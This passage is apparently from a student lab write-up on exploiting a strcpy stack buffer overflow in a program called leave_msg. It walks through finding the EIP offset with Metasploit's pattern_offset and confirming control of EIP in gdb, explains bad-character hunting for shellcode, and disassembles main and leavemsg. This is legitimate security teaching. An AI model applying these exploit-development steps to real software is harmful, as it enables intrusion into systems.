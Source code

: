 Gdb already provides the output of the eip register when it crashes and we can see it got overwritten with the value `0x37714336`. We can now use msfconsole again to find out how many bytes we need to overwrite it.

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37714336
[*] Exact match at offset 2060
```

We can test this by running the program again with an input of 2060 As followed by 4 Bs. If the offset is correct we should see eip become `x42424242`
```sh
(gdb) run $(python -c print'"A" * 2060 + "B" *4')
The program being debugged has been started already.
Starting program: /home/student/leave_msg $(python -c print'"A" * 2060 + "B" *4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
### Identification and Removal of Bad Characters
We see the expected results, which is perfect. Our next step is going to be identifying bad characters. Some applications reserver some specific bytes as magic numbers or for other needs. We need to find them so that we do not accidentally use them in our shell code. 

To identify bad characters during a buffer overflow, we send a payload containing every possible byte value (from `\x01` to `\xff`) into the vulnerable buffer. After the payload is processed, we will then inspect the memory location where the buffer is stored to see which bytes are altered, removed, or truncated. Any bytes that do not appear as expected are considered bad characters, which cannot be used in the final shellcode.

To do this we will need to find where in the code the buffer write occurs. Lets disassemble the main function to search for vulnerable function calls.
```sh
(gdb) disassemble main
Dump of assembler code for function main:
   0x0000073b <+0>:	lea    0x4(%esp),%ecx
   0x0000073f <+4>:	and    $0xfffffff0,%esp
   0x00000742 <+7>:	pushl  -0x4(%ecx)
   0x00000745 <+10>:	push   %ebp
   0x00000746 <+11>:	mov    %esp,%ebp
   0x00000748 <+13>:	push   %esi
   0x00000749 <+14>:	push   %ebx
   <SNIP>
   0x0000076f <+52>:	add    $0x4,%eax
   0x00000772 <+55>:	mov    (%eax),%eax
   0x00000774 <+57>:	sub    $0xc,%esp
   0x00000777 <+60>:	push   %eax
   0x00000778 <+61>:	call   0x68d <leavemsg>
```

We can see that main call the leavemsg function so lets also disassemble that one.

```sh
(gdb) disassemble leavemsg
Dump of assembler code for function leavemsg:
   0x0000068d <+0>:	push   %ebp
   0x0000068e <+1>:	mov    %esp,%ebp
   0x00000690 <+3>:	push   %ebx
   0x00000691 <+4>:	sub    $0x804,%esp
   <SNIP>
   0x000006ed <+96>:	sub    $0x8,%esp
   0x000006f0 <+99>:	pushl  0x8(%ebp)
   0x000006f3 <+102>:	lea    -0x808(%ebp),%eax
   0x000006f9 <+108>:	push   %eax
   0x000006fa <+109>:	call   0x4e0 <strcpy@plt>
   <SNIP> 
   0x00000731 <+164>:	mov    $0x0,%eax
```